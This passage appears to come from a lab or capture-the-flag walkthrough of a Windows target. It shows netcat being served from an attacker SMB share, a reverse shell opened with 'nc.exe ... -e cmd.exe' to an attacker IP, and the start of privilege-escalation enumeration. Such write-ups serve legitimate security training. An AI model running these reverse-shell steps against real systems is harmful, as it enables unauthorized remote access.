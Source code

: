 ### Stable Shell

Start SMB Server on Kali

```
impacket-smbserver smb . -smb2support
```

Mount Share and copy netcat binary on target

```
net use \\192.168.49.75\smb
The command completed successfully

copy \\192.168.49.75\smb\nc.exe
```

Start listener on Kali and execute reverse shell

```
sudo rlwrap nc -lnvp 80

nc.exe 192.168.49.75 80 -e cmd.exe
```

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Local enumeration

whoami /priv

```
whoami
nt authority\local service

C:\wamp\www>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

```
